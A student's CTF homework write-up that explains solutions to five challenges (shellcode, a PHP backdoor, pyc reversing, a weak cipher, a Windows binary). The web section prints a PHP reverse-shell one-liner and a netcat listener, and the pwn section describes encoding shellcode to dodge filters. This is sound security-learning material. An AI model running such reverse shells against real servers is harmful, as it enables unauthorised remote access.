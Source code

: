 # CTF HW0 Writeup

  - Nickname: unicorn011
  - Student ID: B04901011
  - Real name: 吳宛臻

### Problem 1: Shellc0de (pwn)

#### Problem description

> We are provided with a binary file called shellc0de and a c file which describes the process. It takes a maximum input of `0x100` from the user, checks if restricted character are present and executes whatever was entered.

#### Solution
> From the c file we can see this is a simple shellcode execution program. All we have to do is connect to the server, input shellcode that spawns a shell, and then we can find the flag hidden on the server!

> First, using `file` we can see that the binary is a `64 bit x86-64 ELF run on Linux, unstripped`, which means if we use pwntools we have to specify `context.arch = amd64`. Initially I tried to write my own asm code to extract the shellcode but somehow it kept failing, so I resorted to using `shellcraft` in pwntools to create valid instructions. 

> Finally, because of the restricted characters `\x00\x0f\x05`, which corresponds to Nullbytes and the `syscall` instructions that must be present in x86-64 machine code, we need to transform our shellcode. I experimented with xor encoding and other obfuscation techniques, but nothing worked, so in the end I still used the `encoder` module to avoid restricted characters.

> The resulting code is in `exploit.py`. It connects to the server, crafts shellcode with `sh()`, encodes the code and sends it to the server to get an interactive shell. We find our flag in `/home/shellcode/flag`. As a side note, I also tried to directly craft shellcode that cats the flag and it works as well!

### Problem 2: open my backdoor (web)

#### Problem description

> We get a website which shows the image of a door(from doraemon?), and clicking into the door we see the backdoor php source code.

#### Solution
> The php takes user input from both `post` and `get` methods. The first four letters of `_GET[87]` value is xored with `d00r` and then executed as a function with `_POST[#]` as input arguments. We know the key of `_POST` is `#` because the program counts the number of whitespaces in the second line of the file and converts it into an ascii character with `chr()` for indexing the `_POST` array. There are 35 whitespaces so `chr(35)='#'`. We can can enter anything with the post method since it doesn't check for length or other character restrictions. So now we know we have a command injection vulnerability to exploit. 

> The function we want to execute, that has exactly four letters, is the `exec` function, so the value of `_GET[87]` should be `"exec" ^ "d00r"`. We compute this value and convert into url notation `'%01HU%11'`. For `_POST[#]` we can use reverse shell to rebound the server shell onto our local nc listener.

> On my local machine, I opened a netcat listener on port 1234 with
```sh
nc -vl 140.112.150.194 1234
```
> On burpsuite, I modified the payload with `'%01HU%11'` for `get` and  for `post`:
```sh
php -r '$sock=fsockopen("140.112.150.194",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
> That got me a shell on the remote server! I dug into the directories and found a file named `flag_is_here`. That's our flag!


### Problem 3: m4chine (reverse)

#### Problem description

> We get a `pyc` file (python bytecode), and executing it we are prompted for input which is tested against the flag and responds 'wrong' or 'You get the flag'.

#### Solution
> Since this is a reversing problem, we can either dynamically analyse it with gdb or decompile it and reverse the source python code. I found a python reversing module called [uncompyle6](https://github.com/rocky/python-uncompyle6) and decompiled the pyc file into python3.7 code.

> From the code we see that the program emulates a machine by taking input instruction codes and performing the corresponding functions on the input flag sequence. The instructions do add, subtract, and compare computations, and terminate if any of the comparisons fail. I copied the file, deleted the assertions, and added print functions to dump the sequence of instructions into assembly-like commands. The result looked something like this.

```sh
sub
push 8
add
cmp
terminal
....
```
> Then it was fairly simple. I did the calculations and reverted the bytes representation into hex with the hint FLAG{} and got the flag.


### Problem 4: encrypt (crypto)

#### Problem description

> We get a ciphertext and a python encryption program. Decipher to get flag.

#### Solution
> The python code tells us that the cipher reads a one byte key, translates the 8 bits of the key into 8 stages of encryption, and performs the computation on the 16-bytes long flag input, and outputs the results as the ciphertext file. 

> If you look into the encryption functions, you'll immediately see that the cipher is **deterministic** because it uses the seed `oalieno` every time, so the xor and shuffle sequence is always the same. In addition, during encryption the bytes are independent since they are computed against the deterministic sequence instead of each other, so modifying one byte in the plaintext only affects one byte in the ciphertext. This means we can brute force each byte of the flag!

> Since we know the plaintext must begin with `FLAG{` and that the key is must be a printable ascii character, my first instinct was to brute force the key. I iterated from 33(ascii '!') to 126(ascii '~'), and compared them to our ciphertext. There were multiple matches which produced identical ciphertexts, so I chose 115(ascii 's') as my key. The flag is only 16 bytes long and we already know 6 of them (the beginning `FLAG{` and ending `}`), so I brute forced the remaining 10 bytes. The code can be found in the main function of `crypto.py`, which is a modification of the original problem file.

### Problem 5: Winmagic (misc)

#### Problem description

> The problem comes with a windows exe, pdb, and cpp, and instructs us to debug the program. The cpp has comments on how to use Visual Studio.

#### Solution
> From the cpp I supposed we should set up visual code, so we created a new project, added the exe, pdb, and cpp, and tried to run it with debugging symbols. But we couldn't. We were either missing the `pch.h` header file or unable to link the pdb with the exe. We tried on different computers and googled for some time but still failed to set up the correct environment. So we gave up and threw it into IDA.

> From the cpp we know that the key is xored with the cipher if password is correct. So the key and cipher must already exist in the data of the program. We searched for the xor part and found the cipher (see below). We did the xor by hand and retrieved the flag.

![](src/winmagic.png)
